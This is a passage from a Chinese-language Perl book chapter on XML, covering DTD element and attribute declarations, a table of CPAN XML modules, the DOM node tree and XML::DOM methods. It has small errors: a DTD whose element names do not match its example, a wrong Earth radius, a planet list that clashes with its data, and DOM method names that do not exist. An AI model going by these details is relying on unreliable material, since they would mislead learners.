            </ITEM>
        </ORDERS>
    </CUSTOMER>
    <CUSTOMER>
        <NAME>
            <LAST_NAME>Smithson</LAST_NAME>
            <FIRST_NAME>Nancy</FIRST_NAME>
        </NAME>
        <DATE>September 2, 2001</DATE>
        <ORDERS>
            <ITEM>
                <PRODUCT>Ribbon</PRODUCT>
                <NUMBER>12</NUMBER>
                <PRICE>$2.95</PRICE>
            </ITEM>
            <ITEM>
                <PRODUCT>Goldfish</PRODUCT>
                <NUMBER>6</NUMBER>
                <PRICE>$1.50</PRICE>
            </ITEM>
        </ORDERS>
    </CUSTOMER>
</DOCUMENT>
```

另一方面，这里有一份格式良好但无效的文档（因为没有DTD或模式）：

```
<?xml version="1.0"?>
<DOCUMENT>
    <TITLE>
        A Noisy Noise Annoys An Oyster
    </TITLE>
</DOCUMENT>
```

这里有一份包含嵌套错误且没有DTD的文档，因此它既无效，格式也不正确：

```
<?xml version="1.0"?>
<TITLE>
    A Noisy Noise Annoys An Oyster
<HEADING>
</TITLE>
    A Study Of Shellfish And Audio Disturbances
</HEADING>
```

大多数XML解析器要求XML文档格式良好，但不一定需要有效。大多数XML解析器不要求有DTD或模式，但如果存在，解析器通常会使用它来检查XML文档的语法。正式的XML 1.0规范建议你的XML文档既要有效，也要格式良好。

要使一个XML文档有效，它必须根据DTD或模式进行检查。我将在此概述如何创建DTD并展示它们的样子。W3C关于模式的建议仍在发展中，目前尚不清楚如何将模式与XML文档关联，因此我在此将坚持使用DTD。

## XML文档类型定义

你现在已经知道如何创建XML文档了。如果你想确保你的文档有效（即，遵守你设定的语法规则），你需要一个DTD或模式来让XML解析器检查，而创建这些项目更为复杂。我将在此探讨一下DTD。

> *注意：在本书中我们使用Perl进行XML工作时，将不需要使用DTD或模式，因此你可以将本节视为可选内容，如果你愿意可以跳过。但请注意，如果你继续学习XML，了解如何指定XML文档的语法以避免错误将变得很重要。*

创建DTD可能有点复杂，因此我将在此通过一个示例来讲解。这是我将创建的XML文档；DTD包含在 **<!DOCTYPE>** 元素中：

```
<?xml version="1.0"?>
<!DOCTYPE DOCUMENT [
    <!ELEMENT p (#PCDATA)>
    <!ELEMENT DOCUMENT    (TITLE,SUBTITLE?,PREFACE?,(SECTION | PART)+)>
    <!ELEMENT TITLE       (TITLE2*)>
    <!ELEMENT TITLE2      (#PCDATA)>
    <!ELEMENT SUBTITLE    (p)+>
    <!ELEMENT PREFACE     (HEADING, p+)+>
    <!ELEMENT PART        (HEADING, CHAPTER+)>
    <!ELEMENT SECTION     (HEADING, p+)>
    <!ELEMENT HEADING     (#PCDATA)>
    <!ELEMENT CHAPTER     (CHAPTERTITLE, p+)>
    <!ELEMENT CHAPTERTITLE (#PCDATA)>
]>
<DOCUMENT>
    <TITLE>My Novel</TITLE>
    <PART>
        <HEADING>Ice Cream Consumption</HEADING>
        <CHAPTER>
            <CHAPTERTITLE>CHAPTER 1</CHAPTERTITLE>
            <p>I enjoy fishing.</p>
            <p>And I enjoy travel.</p>
            <p>How about you?</p>
        </CHAPTER>
    </PART>
</DOCUMENT>
```

这里有许多元素：**<DOCUMENT>**、**<TITLE>**、**<PART>**、**<HEADING>**等等。我将首先声明 **<p>**（代表“段落”）元素，它只包含文本——即XML所称的“解析字符数据”——你通过关键字 **#PCDATA** 来指定：

```
<!ELEMENT p          (#PCDATA)>
```

接下来，我声明文档元素 **<DOCUMENT>**。我将设置 **<DOCUMENT>** 元素包含一个 **<TITLE>** 标签——可能还有一个 **<SUBTITLE>** 标签，我通过在SUBTITLE声明后放置 **?** 来表示；可能还有一个 **<PREFACE>** 标签；以及一个或多个节或部分，如 **<SECTION>** 和 **<PART>** 标签这样声明（注意竖线 | 表示“或”）：

```
<!ELEMENT p		(#PCDATA)>
<!ELEMENT DOCUMENT	(TITLE, SUBTITLE?, PREFACE?, (SECTION | PART)+)>
```

这是在DTD中定义元素语法时可以使用的符号及其含义的列表：

+   • *a b*—**a** 后跟 **b**。
+   • *a | b*—**a** 或 **b**，但不能同时是两者。
+   • **a – b**—由 **a** 表示的字符串集合，但不包括 **b** 所表示的部分。
+   • **a?**—**a** 或什么都不出现。
+   • **a+**—出现一次或多次的 **a**。
+   • **a***—出现零次或多次的 **a**。
+   • **(*expression*)**—用括号括起表达式意味着它被视为一个单元，并且可以携带后缀运算符 ?、* 或 +。

接下来，我声明一个 **<TITLE>** 标签，它可以包含零个或多个子标题标签，我称之为 **<TITLE2>**：

```
<!ELEMENT p			(#PCDATA)>
<!ELEMENT DOCUMENT	(TITLE,SUBTITLE?,PREFACE?,(SECTION | PART)+)>
<!ELEMENT TITLE		(TITLE2)*>
```

**<TITLE2>** 元素，反过来，可以包含字符数据：

```
<!ELEMENT p			(#PCDATA)>
<!ELEMENT DOCUMENT	(TITLE,SUBTITLE?,PREFACE?,(SECTION | PART)+)>
<!ELEMENT TITLE		(TITLE2)*>
<!ELEMENT TITLE2		(#PCDATA)>
```

接下来，我声明 **<SUBTITLE>** 元素，它可以包含一个或多个段落：

```
<!ELEMENT p			(#PCDATA)>
<!ELEMENT DOCUMENT	(TITLE,SUBTITLE?,PREFACE?,(SECTION | PART)+)>
<!ELEMENT TITLE		(TITLE2)*>
<!ELEMENT TITLE2		(#PCDATA)>
<!ELEMENT SUBTITLE	(p)+>
```

**<PREFACE>** 元素可以包含一个 **<HEADING>** 元素，后跟一个或多个 **<p>** 元素；或者多个 **<HEADING>** 元素，每个后跟一个或多个 **<p>** 元素，像这样：

```
<!ELEMENT DOCUMENT    (TITLE,SUBTITLE?,PREFACE?,(SECTION | PART)+)>
<!ELEMENT TITLE       (TITLE2)*>
<!ELEMENT TITLE2       (#PCDATA)>
<!ELEMENT SUBTITLE     (p)+>
<!ELEMENT PREFACE      (HEADING, p+)+>
```

并且我将指定 **<PART>** 元素可以包含 **<HEADING>** 和一个或多个 **<CHAPTER>** 元素，像这样：

```
<!ELEMENT p           (#PCDATA)>
<!ELEMENT DOCUMENT    (TITLE,SUBTITLE?,PREFACE?,(SECTION | PART)+)>
<!ELEMENT TITLE       (TITLE2)*>
<!ELEMENT TITLE2       (#PCDATA)>
<!ELEMENT SUBTITLE     (p)+>
<!ELEMENT PREFACE      (HEADING, p+)+>
<!ELEMENT PART         (HEADING, CHAPTER+)>
```

此外，我将说明 **<SECTION>** 元素可以包含一个 **<HEADING>** 元素和一个或多个 **<p>** 元素，**<HEADING>** 元素可以包含文本，并且 **<CHAPTER>** 元素可以包含 **<CHAPTERTITLE>** 和一个或多个 **<p>** 元素，像这样：

```
<!ELEMENT p           (#PCDATA)>
<!ELEMENT DOCUMENT    (TITLE,SUBTITLE?,PREFACE?,(SECTION | PART)+)>
<!ELEMENT TITLE       (TITLE2)*>
<!ELEMENT TITLE2       (#PCDATA)>
<!ELEMENT SUBTITLE     (p)+>
<!ELEMENT PREFACE      (HEADING, p+)+>
<!ELEMENT PART         (HEADING, CHAPTER+)>
<!ELEMENT SECTION      (HEADING, p+)>
<!ELEMENT HEADING      (#PCDATA)>
<!ELEMENT CHAPTER      (CHAPTERTITLE, p+)>
```

最后，**<CHAPTERTITLE>** 元素只包含文本，像这样：

```
<!ELEMENT p           (#PCDATA)>
<!ELEMENT DOCUMENT    (TITLE,SUBTITLE?,PREFACE?,(SECTION | PART)+)>
<!ELEMENT TITLE       (TITLE2)*>
<!ELEMENT TITLE2       (#PCDATA)>
<!ELEMENT SUBTITLE     (p)+>
<!ELEMENT PREFACE      (HEADING, p+)+>
<!ELEMENT PART         (HEADING, CHAPTER+)>
<!ELEMENT SECTION      (HEADING, p+)>
<!ELEMENT HEADING      (#PCDATA)>
<!ELEMENT CHAPTER      (CHAPTERTITLE, p+)>
<!ELEMENT CHAPTERTITLE (#PCDATA)>
```


<!ELEMENT CHAPTERTITLE (#PCDATA)>
当你把所有内容都包含在<!DOCTYPE>元素中后，DTD就定义完成了：
```xml
<?xml version="1.0"?>
<!DOCTYPE DOCUMENT [
    <!ELEMENT p (#PCDATA)>
    <!ELEMENT DOCUMENT (TITLE,SUBTITLE?,PREFACE?,(SECTION | PART)+)>
    <!ELEMENT TITLE (TITLE2)*>
    <!ELEMENT TITLE2 (#PCDATA)>
    <!ELEMENT SUBTITLE (p)+>
    <!ELEMENT PREFACE (HEADING, p+)+>
    <!ELEMENT PART (HEADING, CHAPTER+)>
    <!ELEMENT SECTION (HEADING, p+)>
    <!ELEMENT HEADING (#PCDATA)>
    <!ELEMENT CHAPTER (CHAPTERTITLE, p+)>
    <!ELEMENT CHAPTERTITLE (#PCDATA)>
]>
<DOCUMENT>
    <TITLE>My Novel</TITLE>
    <PART>
        <HEADING>Ice Cream Consumption</HEADING>
        <CHAPTER>
            <CHAPTERTITLE>CHAPTER 1</CHAPTERTITLE>
            <p>I enjoy fishing.</p>
            <p>And I enjoy travel.</p>
            <p>How about you?</p>
        </CHAPTER>
    </PART>
</DOCUMENT>
```
注意，这里我仅定义了若干元素，没有定义属性。要了解如何同时定义属性和元素，请参阅下一节。

## 在DTD中定义属性
你可以通过<!ATTLIST>元素指定DTD中元素所具有的属性。该元素用于存放某个元素的属性列表，属性可以逐一列出。你可以为属性指定默认值，也可以指定属性是否为必填属性。以下是使用<!ATTLIST>元素为名称为*元素名称*的XML元素创建属性的方法（此处我列出了三种声明属性的不同方式，但在实际使用中，你的<!ATTLIST>元素可能包含更多或更少行数）：
```xml
<!ATTLIST ELEMENT_NAME 
    ATTRIBUTE_NAME TYPE DEFAULT_VALUE 
    ATTRIBUTE_NAME TYPE #IMPLIED 
    ATTRIBUTE_NAME TYPE #REQUIRED>
```
包含**属性名称**的第一行是一种声明属性的方式。在这种情况下，我会指定属性名、其**类型**以及*默认值*。如果未为该属性提供值，则使用默认值。用于属性的常规**类型**是字符数据类型**CDATA**。不过，你也可以使用*原子化类型*替代**CDATA**类型，这些类型由W3C定义为**ID**、**IDREF**、**IDREFS**、**ENTITY**、**ENTITIES**、**NMTOKEN**（名称令牌）或**NMTOKENS**，用于在属性符合对应描述时指明其用途。你还可以设置并使用*枚举型*属性类型，这意味着属性的值只能取自你定义的枚举值列表（例如"Monday""Tuesday""Wednesday""Thursday"或"Friday"）。有关这些选项的更多信息，请参阅W3C XML推荐规范。
本示例中的下一行指定了另一种声明属性的方式，将该属性设为*可选的*，这意味着该属性无需在XML元素中使用。最后一行指定了*必填*属性，这意味着如果你省略了该属性，XML解析器会报告错误。

## 第25章 XML::DOM解析
以下是一个声明属性的示例。在本例中，我将为之前创建的存储客户数据的示例XML文档编写对应的DTD。我将为**<CUSTOMER>**元素添加并定义属性——具体而言，包括一个名为**CITIZENSHIP**（默认值为"US"）的属性、一个可选的**AGE**属性，以及一个必填的**TYPE**属性（你的**<!ATTLIST>**元素可能包含更多或更少行数，具体取决于你要为对应XML元素定义的属性数量）：
```xml
<?xml version = "1.0"?>
<!DOCTYPE DOCUMENT [
    <!ELEMENT DOCUMENT (CUSTOMER)*>
    <!ELEMENT CUSTOMER (NAME,DATE,ORDERS)>
    <!ELEMENT NAME (LASTNAME,FIRSTNAME)>
    <!ELEMENT LASTNAME (#PCDATA)>
    <!ELEMENT FIRSTNAME (#PCDATA)>
    <!ELEMENT DATE (#PCDATA)>
    <!ELEMENT ORDERS (ITEM)*>
    <!ELEMENT ITEM (PRODUCT,NUMBER,PRICE)>
    <!ELEMENT PRODUCT (#PCDATA)>
    <!ELEMENT NUMBER (#PCDATA)>
    <!ELEMENT PRICE (#PCDATA)>
    <!ATTLIST CUSTOMER 
        CITIZENSHIP CDATA "US" 
        AGE CDATA #IMPLIED 
        TYPE CDATA #REQUIRED>
]>
<DOCUMENT>
    <CUSTOMER TYPE="Good">
        <NAME>
            <LAST_NAME>Thomson</LAST_NAME>
            <FIRST_NAME>Susan</FIRST_NAME>
        </NAME>
        <DATE>September 1, 2001</DATE>
        <ORDERS>
            <ITEM>
                <PRODUCT>Video tape</PRODUCT>
                <NUMBER>5</NUMBER>
                <PRICE>$1.25</PRICE>
            </ITEM>
            <ITEM>
                <PRODUCT>Shovel</PRODUCT>
                <NUMBER>2</NUMBER>
                <PRICE>$4.98</PRICE>
            </ITEM>
        </ORDERS>
    </CUSTOMER>
    <CUSTOMER TYPE="Poor">
        <NAME>
            <LAST_NAME>Smithson</LAST_NAME>
            <FIRST_NAME>Nancy</FIRST_NAME>
        </NAME>
        <DATE>September 2, 2001</DATE>
        <ORDERS>
            <ITEM>
                <PRODUCT>Ribbon</PRODUCT>
                <NUMBER>12</NUMBER>
                <PRICE>$2.95</PRICE>
            </ITEM>
            <ITEM>
                <PRODUCT>Goldfish</PRODUCT>
                <NUMBER>6</NUMBER>
                <PRICE>$1.50</PRICE>
            </ITEM>
        </ORDERS>
    </CUSTOMER>
</DOCUMENT>
```
以上便是我们对DTD的概览。如前所述，你无需掌握如何创建DTD，即可完成本书中涉及的XML/Perl相关开发工作；但如果你后续继续研究XML，你很可能会在某个阶段需要使用DTD或schema来让XML解析器检查文档的语法。目前，CPAN上提供的XML解析器支持DTD，但不支持schema。

## XML与Perl
XML的内容远不止本入门介绍所能覆盖。例如，你还可以在文档外部创建DTD、使用XML schema，或在XML文档中引用图像等二进制文件。要了解所有细节，请参阅权威XML书籍，或查阅位于**www.w3.org/TR/REC-xml**的W3C XML推荐规范。
与此同时，我们开始介绍如何将XML与Perl结合使用。如你所知，Perl模块会在综合Perl归档网络（Comprehensive Perl Archive Network，简称CPAN）站点发布，其地址为**www.cpan.org**。事实证明，其中有很多模块都用于处理XML（我统计过共有156个）。表25.1中列出了部分Perl XML模块及其在CPAN站点上的描述。
表25.1中列出的大部分Perl XML模块都需要先下载安装才能使用。Perl发行版本身自带了部分XML支持功能，例如**XML::Parser**模块，其余模块则需要单独安装。本书中，我将只使用Perl包管理器（PPM）可获取的模块，方便在Windows系统上下载，例如**XML::DOM**和**CGI::XMLForm**。
正如我们之前所见，XML提供了一种创建和构建数据的方式，能够适配数据本身的特性。你可能会疑惑，Perl如何处理这种自由格式的数据——比如它如何识别**<CUSTOMER>**元素？又如何识别**TYPE**属性？这体现了XML与HTML的一个根本差异：XML提供的是数据结构化方式，而非HTML所提供的数据展示方式。HTML可以指明哪些文本需要加粗、哪些需要倾斜，而XML本身不具备这类格式化功能。相反，XML的核心是按你需要的方式对数据进行结构化。
要处理XML文档，你需要通过XML*解析器*读取文档，解析器会将文档的各个部分（例如其中的元素）传递给你。通过这种方式你就可以提取文档中的数据，我们会在本章中具体介绍。
要解析XML文档，你可以使用**XML::Parser**、**XML::DOM**等Perl模块。事实上，**XML::DOM**构建于**XML::Parser**之上，而**XML::Parser**又构建于James Clark开发的名为Expat的XML解析器之上。**XML::DOM**模块是应用最广泛的XML模块之一，因此本章将先介绍该模块，我们会在下一章中介绍**XML::Parser**模块。

## 表25.1 Perl XML模块及CPAN描述
| 模块 | 描述 |
| --- | --- |
| **Apache::AxKit::XMLFinder** | 用于检测XML文件 |
| **Apache::MimeXML** | 适用于XML文件的mod_perl MIME编码嗅探模块 |
| **Boulder::XML** | 用于Boulder流的XML格式输入/输出模块 |
| **Bundle::XML** | 用于安装所有XML相关模块的集成包 |
| **CGI::XMLForm** | CGI.pm的扩展模块，可读取/生成格式化XML |
| **Data::DumpXML** | 可将任意数据结构转储为XML格式 |
| **DBIx::XML_RDB** | 用于基于现有DBI数据源生成XML的Perl扩展 |
| **GoXML::XQI** | 用于XML查询接口的Perl扩展，对应地址为**xqi.goxml.com** |
| **Mail::XML** | 为**Mail::Internet**添加**XML()**方法 |
| **MARC::XML** | MARC.pm的子类，提供XML支持功能 |
| **PApp::XML** | 支持pxml片段等更多功能 |
| **XML::Catalog** | 用于解析公共标识符、重映射系统标识符 |
| **XML::CGI** | 用于在CGI.pm变量与XML之间转换的Perl扩展 |
| **XML::Checker** | 用于验证XML有效性的Perl模块 |
| **XML::Checker::Parser** | 解析时可验证XML有效性的**XML::Parser** |
| **XML::DOM** | 用于构建符合DOM 1级规范的文档结构的Perl模块 |
| **XML::DOM::NamedNodeMap** | 针对**XML::DOM**的哈希表接口 |
| **XML::DOM::NodeList** | **XML::DOM**使用的节点列表 |
| **XML::DOM::PerlSAX** | **XML::Handler::BuildDOM**的旧名称 |
| **XML::DOM::ValParser** | 解析时可验证XML有效性的**XML::DOM::Parser** |
| **XML::Driver::HTML** | 适用于非良构HTML的SAX驱动 |
| **XML::DT** | 用于将XML向下转换为字符串的包 |
| **XML::Edifact** | 用于处理**XML::Edifact**消息的Perl模块 |
| **XML::Encoding** | 用于解析XML编码映射的Perl模块 |
| **XML::ESISParser** | 基于Nsgmls的Perl SAX解析器 |
| **XML::Filter::DetectWS** | 用于检测可忽略空白符的Perl SAX过滤器 |
| **XML::Filter::Hekeln** | SAX流编辑器 |
| **XML::Filter::Reindent** | 重新格式化空白符，用于XML的美化打印输出 |
| **XML::Filter::SAXT** | 将SAX事件复制到多个SAX事件处理器 |
| **XML::Generator** | 用于生成XML的Perl扩展 |
| **XML::Grove** | Perl风格的XML对象 |
| **XML::Grove::AsCanonXML** | 以规范XML格式输出XML对象 |
| **XML::Grove::AsString** | 将XML对象的内容以字符串形式输出 |
| （续）|

## 第25章 XML::DOM 解析
### 表25.1 Perl中的XML模块及CPAN描述（续）
| 模块 | 描述 |
|--------|-------------|
| XML::Grove::Builder | 用于构建XML::Grove的Perl SAX处理器 |
| XML::Grove::Factory | 简化XML::Grove对象的创建 |
| XML::Grove::Path | 返回指定路径处的对象 |
| XML::Grove::PerlSAX | 面向XML对象的Perl SAX事件接口 |
| XML::Grove::Sub | 对grove运行过滤子程序 |
| XML::Grove::Subst | 将值替换到模板中 |
| XML::Handler::BuildDOM | 可创建XML::DOM文档结构的Perl SAX处理器 |
| XML::Handler::CanonXMLWriter | 以规范XML格式输出XML |
| XML::Handler::Composer | 另一款XML打印/写入/生成工具 |
| XML::Handler::PrintEvents | 打印Perl SAX事件（用于调试） |
| XML::Handler::PyxWriter | 将Perl SAX事件转换为Nsgmls的ESIS格式 |
| XML::Handler::Sample | 一款简易的Perl SAX处理器 |
| XML::Handler::Subs | 用于调用用户自定义子程序的Perl SAX处理器基类 |
| XML::Handler::XMLWriter | 用于写入可读XML的Perl SAX处理器 |
| XML::Handler::YAWriter | 又一个Perl SAX XML编写器0.15版 |
| XML::Node | 基于节点的XML解析 |
| XML::Parser | 用于解析XML文档的Perl模块 |
| XML::Parser::Expat | 对James Clark的expat XML解析器的底层访问 |
| XML::Parser::PerlSAX | 使用XML::Parser的Perl SAX解析器 |
| XML::Parser::PyxParser | 将Nsgmls或Pyxie的ESIS转换为Perl SAX |
| XML::PatAct::Amsterdam | 用于简易样式表的动作模块 |
| XML::PatAct::MatchName | 用于匹配元素名称的模式模块 |
| XML::PatAct::ToObjects | 用于创建Perl对象的动作模块 |
| XML::PYX | XML转PYX生成器 |
| XML::QL | XML查询语言 |
| XML::RegExp | 针对XML标记的正则表达式 |
| XML::Registry | 用于加载和保存XML注册表的Perl模块 |
| XML::RSS | 创建和更新RSS文件 |
| XML::SAX2Perl | 将Perl SAX方法转换为Java/CORBA风格的方法 |
| XML::Simple | 用于读写XML（尤其是配置文件）的简易API |
| XML::Stream | 创建XML流连接并解析返回数据 |
| XML::Stream::Namespace | 用于简化命名空间定义的对象 |
| XML::Template | Perl XML模板实例化 |
| XML::Twig | 用于以树形模式处理大型XML文档的Perl模块 |
| XML::UM | 将UTF-8字符串转换为XML::Encoding支持的任何编码 |
| XML::Writer | 用于写入XML文档的Perl扩展 |
| XML::XPath | 用于解析和求值XPath的一组模块 |
| XML::XPath::Boolean | 布尔真/假值 |
| XML::XPath::Builder | 用于构建XPath树的SAX处理器 |
| XML::XPath::Literal | 简单字符串值 |
| XML::XPath::Node | 节点的内部表示 |
| XML::XPath::NodeSet | XML文档节点列表 |
| XML::XPath::Number | 简单数值 |
| XML::XPath::PerlSAX | Perl SAX事件生成器 |
| XML::XPath::XMLParser | 生成节点树的默认XML解析类 |
| XML::XQL | 用于使用XQL查询XML树结构的Perl模块 |
| XML::XQL::Date | 新增XQL::Node类型，用于表示和比较日期与时间 |
| XML::XQL::DOM | 为XML::DOM节点添加XQL支持 |
| XML::XSLT | 用于处理XSLT的Perl模块 |
| XMLNews::HTMLTemplate | 用于将NITF转换为HTML的模块 |
| XMLNews::Meta | 用于读写XMLNews元数据文件的模块 |

## XML::DOM模块
你可以从CPAN下载**XML::DOM**模块。虽然它不像**XML::Parser**模块那样随Perl自带，但功能比**XML::Parser**强大得多，非常值得安装。（在PPM中，只需输入"install xml-dom"即可下载并安装该模块。）
**XML::DOM**模块的功能远不止解析文档——它还包含允许你修改XML文档、搜索文档内容等更多方法，我们将在下一章中详细介绍。
*DOM*这个名称源自W3C文档对象模型（DOM），该模型规定了一种将XML文档视为节点树的方式。在该模型中，每个独立的数据项都是一个*节点*。将文档视为节点树是处理XML文档的一种良好方式（尽管还有其他方式，我们将在下一章中介绍），因为这种方式可以相对容易地看出哪些元素包含了其他哪些元素。在此模型中，文档中的所有内容都会成为节点——元素、属性、文本等。
以下是W3C DOM中可能的节点类型（其中部分节点类型较为复杂，由于篇幅限制我们无法在此全面介绍；本书中我们将用到的节点类型我们已介绍过：元素、属性等。其他类型可参考W3C XML 1.0规范，地址为<http://www.w3.org/TR/REC-xml>）：
- 元素
- 属性
- 文本
- CDATA节
- 实体引用
- 实体
- 处理指令
- 注释
- 文档
- 文档类型
- 文档片段
- 记号
例如，请看以下文档：
```
<?xml version="1.0"?>
<DOCUMENT>
<GREETING>
Hello From XML
</GREETING>
<MESSAGE>
Welcome to the wild and woolly world of XML.
</MESSAGE>
</DOCUMENT>
```
本文档的开头是一个*文档节点*，本文档中的第一个*元素节点*是文档元素**<DOCUMENT>**（注意本例中的XML声明并不对应任何节点类型）。**<DOCUMENT>**节点内部包含两个元素节点，即**<GREETING>**和**<MESSAGE>**节点。这两个节点是**<DOCUMENT>**节点的*子*节点，同时也是彼此的*兄弟*节点。**<GREETING>**和**<MESSAGE>**元素本身都包含一个存储字符数据的文本节点。**<GREETING>**和**<MESSAGE>**元素的*父*元素是**<DOCUMENT>**，而**<DOCUMENT>**元素的*子*元素则是**<GREETING>**和**<MESSAGE>**元素。
我们会逐渐习惯将此类文档作为节点树来处理。
若以树形结构展示，该文档的结构如下：
```
<DOCUMENT>
| __________|__________
| |
<GREETING> <MESSAGE>
| |
Hello From XML Welcome to the wild and woolly world of XML.
```
每个独立的数据项本身都会被视作一个节点。使用W3C DOM中定义的方法，你可以沿文档树的不同分支导航，例如使用**nextChild**方法移动到下一个子节点，或使用**lastSibling**方法移动到当前节点的最后一个兄弟节点。如我们将在本章及下一章中看到的，以这种方式处理文档需要一点练习。
有关**XML::DOM**模块的所有内置方法，请参阅本章“即时解决方案”部分中的“使用**XML::DOM**”一节。
事实上，关于这一点还有更多需要注意的内容。请注意，我一直使用空白字符来缩进XML文档，以展示其元素的层次结构，示例如下：
```
<?xml version="1.0"?>
<library>
<book>
<title> Earthquakes for Lunch </title>
<title> Volcanoes for Dinner </title>
</book>
</library>
```
从XML解析器的角度来看，我用来缩进元素的空白字符实际上代表*文本节点*，和文本内容（例如“Earthquakes for Lunch”）的作用相同。在XML文档中，共有四种空白字符：空格、回车符、换行符和制表符。这意味着从XML解析器的角度来看，输入文档的内容如下所示：
```
<?xml version="1.0"?>
<library>␣ ....<book>␣ ........<title>␣ ............Earthquakes for Lunch␣ ........</title>␊ ........<title>␊ ...........Volcanoes for Dinner␊ .......</title>␊ ...</book>␊ </library>
```
默认情况下，XML解析器会将元素之间的所有空白字符视为空白文本节点。这意味着如果包含空白字符，该文档的DOM树结构实际上如下所示（我将空白字符缩写为“whtspace”以便在页面中完整展示）：
```
document node
| element: <library>
| __________________|__________________
| | |
text:whtspace element: <book> text:whtspace
| ____ ______ ____ ______________|______________ ______
| | | | |
text:whtspace element:<title> text:whtspace element:<title> text:whtspace
| |
text: "Earthquakes for Lunch" text: "Volcanoes for Dinner"
```
此类空白节点都是只包含空白字符的文本节点。由于XML解析器默认会保留这些空白字符，你需要要么告知解析器不要保留空白节点（如果你的解析器允许省略此类节点），要么在代码中自行处理这些节点。我们将在本章及下一章中进一步讨论这一内容——如需了解如何从节点树中移除空白节点，请参阅本章“即时解决方案”部分中的“处理文本节点”一节。
在本章中，我们将使用**XML::DOM**构建一个完整的解析程序。该程序将逐段读取XML文档并展示其内容，演示如何访问此类文档中的所有数据。我们需要一个待解析的文档，因此将使用planets.xml，该文件列出了水星、火星和地球的部分数值数据：
```
<?xml version="1.0"?>
<?xml-stylesheet type="text/xml" href="planets.xsl"?>
<PLANETS>
```


<PLANET>
<NAME>水星</NAME>
<MASS UNITS="(地球 = 1)">.0553</MASS>
<DAY UNITS="天">58.65</DAY>
<RADIUS UNITS="英里">1516</RADIUS>
<DENSITY UNITS="(地球 = 1)">.983</DENSITY>
<DISTANCE UNITS="百万英里">43.4</DISTANCE><!--近日点-->
</PLANET>
<PLANET>
<NAME>金星</NAME>
<MASS UNITS="(地球 = 1)">.815</MASS>
<DAY UNITS="天">116.75</DAY>
<RADIUS UNITS="英里">3716</RADIUS>
<DENSITY UNITS="(地球 = 1)">.943</DENSITY>
<DISTANCE UNITS="百万英里">66.8</DISTANCE><!--近日点-->
</PLANET>
<PLANET>
<NAME>地球</NAME>
<MASS UNITS="(地球 = 1)">1</MASS>
<DAY UNITS="天">1</DAY>
<RADIUS UNITS="英里">2107</RADIUS>
<DENSITY UNITS="(地球 = 1)">1</DENSITY>
<DISTANCE UNITS="百万英里">128.4</DISTANCE><!--近日点-->
</PLANET>
</PLANETS>
注意 planets.xml 中的 `<?xml-stylesheet type="text/xml" href="planets.xsl"?>` *处理指令*。XML 处理指令以 `<?` 开头、以 `?>` 结尾，可用于向 XML 软件传递指令。例如，这条处理指令表示当前 XML 文档关联了一个名为 planets.xsl 的 XML 样式表，可通过扩展样式表语言转换（XSLT）对该 XML 文档进行样式配置以用于展示。（该处理指令仅用于演示，本文不会深入讲解 XSLT。更多信息可参阅 W3C 发布的 XSLT 1.0 推荐标准，地址为 **www.w3.org/TR/xslt/**。）
另外请注意，我在 planets.xml 中添加了类似 `<!--At perihelion-->` 的注释。XML 注释与 HTML 注释完全一致，以 `<!--` 开头、以 `-->` 结尾。本章的「即时解决方案」部分会讲解如何处理 planets.xml 的所有组成部分，接下来我们就进入该部分内容。

### 即时解决方案
## 使用 XML::DOM
大老板正在通电话，说道：“好的，我们马上处理！”“谁打来的？”你问道。“股东们，”大老板挂断电话后说，“他们要求我们尽快掌握 XML 相关知识。”“好的，”你说，“我们就先从 **XML::DOM** 模块开始学起。”“什么模块？”大老板问道。
Perl 语言的 **XML::DOM** 模块可从 CPAN 或 PPM 获取，支持万维网联盟（W3C）定义的文档对象模型（DOM）技术来处理 XML 文档，相关内容在本章的「深度讲解」部分已有所说明。在本节的「即时解决方案」中，我们会编写一个使用 **XML::DOM** 读取并解析 XML 文档的程序。
要解析 XML 文档，你需要创建 **XML::DOM::Parser** 类的新对象，并调用该对象的 **parsefile** 方法来解析文档，该方法会返回一个文档对象的引用，本文中我们将其命名为 **$doc**，你可以在代码中使用该对象：
```my $parser = new XML::DOM::Parser;
my $doc = $parser->parsefile ("planets.xml");
```
你可以在解析得到的文档 **$doc** 上使用 **XML::DOM** 模块的方法，具体方法说明可见表 25.2。
**XML::DOM** 模块定义了我们后续会用到的多个类和接口，具体如下供参考。如果存在其他支持的方法，我会将其列在表格中，并通过「参见表 25.3」这类引用指向对应表格：
- 接口 *XML::DOM::NodeList*——该接口支持有序节点集合。*参见表 25.3。*
- 接口 *XML::DOM::NamedNodeMap*——**NamedNodeMap** 对象用于表示可通过名称访问的节点集合。*参见表 25.4。*

## 表25.2 XML::DOM 模块中的方法
| 方法 | 说明 |
| --- | --- |
| getNodeType | 获取节点类型——可选值参见本章「即时解决方案」部分的「DOM 解析：DOMParser.pl 示例」。 |
| getNodeName | 返回节点的名称。 |
| getNodeValue 和 setNodeValue (value) | 返回节点的值。 |
| getParentNode 和 setParentNode (parentNode) | 获取或设置当前节点的父节点。 |
| getChildNodes | 返回包含当前节点所有子节点的 **NodeList** 对象。 |
| getFirstChild | 返回当前节点的第一个子节点。 |
| getLastChild | 返回当前节点的最后一个子节点。 |
| getPreviousSibling | 返回当前节点的前一个同级节点。 |
| getNextSibling | 返回当前节点的后一个同级节点。 |
| getAttributes | 返回包含当前节点属性（Attr 节点）的 **NamedNodeMap** 对象，若当前节点不是元素则返回 **undef**。 |
| getOwnerDocument | 返回与当前节点关联的 **Document** 对象。 |
| insertBefore (newChild, refChild) | 将节点 **newChild** 插入到已有子节点 **refChild** 之前。 |
| replaceChild (newChild, oldChild) | 将子节点列表中的旧子节点 **oldChild** 替换为 **newChild**，并返回被替换的 **oldChild** 节点。 |
| removeChild (oldChild) | 从子节点列表中移除由 **oldChild** 指定的子节点，并返回该节点。 |
| appendChild (newChild) | 将节点 **newChild** 添加到当前节点的子节点列表末尾。 |
| hasChildNodes | 若当前节点存在子节点则返回真值。 |
| cloneNode (deep) | 返回当前节点的副本。 |
| normalize | 将当前 Element 节点下所有深度的 Text 节点转换为「规范」形式，消除相邻的 Text 节点。 |
| getElementsByTagName (name [, recurse]) | 返回具有指定标签名的所有后代元素的 **NodeList**。 |
| getNodeTypeName | 返回描述节点类型的字符串，例如 "**ELEMENT_NODE**" 等。 |
| toString | 返回整个子树对应的字符串。 |
| printToFile (file name) | 将整个子树输出到指定文件名的文件中。 |
| printToFileHandle (handle) | 将整个子树输出到指定文件句柄中。 |
| print (obj) | 使用对象的 print 方法输出整个子树。 |
| getChildIndex (child) | 返回子节点在 **getChildNodes** 返回列表中的索引。 |
| getChildAtIndex (index) | 返回指定索引处的子节点。 |

## 第25章 XML::DOM 解析
| 方法 | 说明 |
